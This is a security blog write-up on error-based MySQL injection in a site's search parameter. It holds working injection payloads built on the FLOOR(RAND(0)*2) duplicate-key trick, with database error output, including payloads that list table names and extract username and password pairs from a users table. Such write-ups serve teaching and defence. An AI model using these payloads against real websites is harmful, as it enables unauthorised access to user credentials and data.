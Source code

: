 ```yaml
---
title: "Exploit database error to leak users data ( Error based sql injection )"
date: 2017-02-20T15:43:48+08:00
lastmod: 2020-08-13T15:43:48+08:00
draft: false
tags: ["SQL-Injection", "Write-up"]
categories: ["security"]
author: "Eslam Salem"
---
```


Hi everybody
I don’t post much write-ups online because most of the work done privately and under NDA.

But this time i decided to publish this (anonymously after website owner agreed ) because too many developers insists that you can’t exploit complicated SQL , or non result SQL (example: `count(*) sql`).


> Note: You can automate everything in this article using SQLMap, but i choose to exploit it manually to explain under the hood proccess.  

First I got a call from one of my friends told me that a hacker contacted them and told them that he found a sql-injection in their website and express his intentions to blackmail them.

I opened the website and tried to play with the parameter just to check , in a couple of minutes i found a bug in their search page .
search page make ajax request when you filter the result to the page , the term parameter is the one is not filtered.

`/?FilterThemes?tags[]=free&term='`

it generates a database error page with full sql dump ( debug mode is ON :) ).

```
ERROR 1064
You have an error in your SQL syntax; check the manual that corresponds to your MYSQL server version for the right syntax to use near '',themes.tag_title) != 0' at line 1
SELECT COUNT(*) FROM (`themes`) JOIN `authors` on `authors`.`id` = `themes`.`author` FIND_IN_SET(''',themes.tag_title) != 0 or `themes`.`title` like '%'%' or `themes`.`desc` like '%'%' AND match (themes.tag_title) against ('free' in boolean mode) order by `themes`.`id` desc limit 12
```

Awesome , but oh wait …

the parameter pass first to count query before it pass to aggregate query.. so must our payload pass the two queries and execute it with union..

OR …

I remembered uncommon way we used it to exploit blind SQL injection which don’t generate any result to the browser — this way can done only if errors is displayed, great that what we have here , right!

## The POC

lets change the payload for a poc


```
/?FilterThemes?tags[]=free&term=d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT('hello',FLOOR(RAND(0)*2),'world')x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '%'='
```

BINGO :)

```
ERROR 1062 
Duplicate entry 'hello1world' for key 'group_key'
SELECT COUNT(*) FROM (`themes`) JOIN `authors` on `authors`.`id` = `themes`.`author` FIND_IN_SET('d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT('hello',FLOOR(RAND(0)*2),'world')x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '%'='',themes.tag_title) != 0 or `themes`.`title` like '%d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT('hello',FLOOR(RAND(0)*2),'world')x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '%'='%' or `themes`.`desc` like '%d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT('hello',FLOOR(RAND(0)*2),'world')x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '%'='%' AND match (themes.tag_title) against ('free' in boolean mode) order by `themes`.`id` desc limit 12
```

Did you notice :) , the expression
`CONCAT('hello',FLOOR(RAND(0)*2),'world')` has been evaluated and displayed :)

let me explain the sql query and how it works before we finish our exploit.

There is some information you needs to know about MySQL.

1. When mysql try to run a sql with multiple sub queries in it , it evaluate the sub queries first then the parent.

2. When using group by required a **unique key**.

To understand more, lets try some queries on our terminal.

```
Select count(*) from INFORMATION_SCHEMA.CHARACTER_SETS;
```

Normal count sql to count the number of records inside Information Scheme database (default database in mysql). now lets play with this sql a little.

```
select count(*), version() x from INFORMATION_SCHEMA.CHARACTER_SETS group by x
```

again nothing special , we added version() (function retrieve the mysql version) and named it x and then we grouped by it.

```
+----------+----------------------------------------+
| count(*) | x                                      |
+----------+----------------------------------------+
|       40 | 10.2.3-MariaDB-10.2.3+maria~xenial-log |
+----------+----------------------------------------+
```

> I use maria db in my local machine , its a fork from mysql but with much optimization

##  Lets be aggressive

```
SELECT count(*), CONCAT(version(),floor(rand(0) *2)) x from INFORMATION_SCHEMA.CHARACTER_SETS group by x;
```

We added a little change ( floor(rand(0) * 2) ) and if you run this sql you will get

```
ERROR 1062 (23000): Duplicate entry '10.2.3-MariaDB-10.2.3+maria~xenial-log1' for key 'group_key'
```

Do you remember the information i told you before about Mysql requires group key to be unique :).


the `( floor(rand(0) * 2) )` generates a sequence of `0, 1, 1, 0, 1, 1`
and the `version()` will be always the same.

so the sequence of calling `count(*)` will be

- `CONCAT(version(),floor(rand(0) *2))` = 10.2.3-MariaDB-10.2.3+maria~xenial-log**0**
- `CONCAT(version(),floor(rand(0) *2))` = 10.2.3-MariaDB-10.2.3+maria~xenial-log**1**
- `CONCAT(version(),floor(rand(0) *2))` = 10.2.3-MariaDB-10.2.3+maria~xenial-log**1** **//Duplication**

So we got the error duplicate in the third attempt

```
Duplicate entry '10.2.3-MariaDB-10.2.3+maria~xenial-log1' for key 'group_key'
```

do you got it :)

## Extract some data

We got the error , we got the leak .. now we need some valuable informations.

Starting with `INFORMATION_SCHEME.tables` , we can grab tables names.

With simple script we can grab all tables names by extracting the result from the db error , just feed the script with payload.

```
%d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT((select TABLE_NAME from INFORMATION_SCHEMA.TABLES LIMIT 1,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) AND '%'='%
```

Now we know the users table. modifying the script with the new payload to grab users data.

```
%d%' AND (SELECT 1337 FROM(SELECT COUNT(*),CONCAT((select concat(username,'-',password) from users LIMIT 1,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) AND '%'='%
```

Thats it.


## Lesson learned

1. Always turn errors off in production.
2. Don’t underestimate any bug , 99% of bugs can be exploited somehow.

Stay safe.
